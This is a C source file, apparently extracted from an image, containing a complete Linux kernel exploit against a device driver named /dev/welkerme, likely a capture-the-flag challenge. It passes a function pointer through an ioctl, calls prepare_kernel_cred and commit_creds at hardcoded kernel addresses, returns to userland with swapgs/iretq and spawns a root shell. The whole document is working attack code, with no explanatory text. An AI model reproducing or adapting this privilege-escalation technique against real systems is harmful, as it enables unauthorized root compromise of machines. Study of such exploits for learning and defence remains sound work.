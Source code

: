 ```c
unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff810726e0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff81072540;" //commit_creds
	    "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

int main(void) {
  save_state();
  int fd, ret;

  if ((fd = open("/dev/welkerme", O_RDWR)) < 0) {
    perror("/dev/welkerme");
    exit(1);
  }
  ret = ioctl(fd,CMD_EXEC,(long)escalate_privs);
  close(fd);
  return 0;
}
```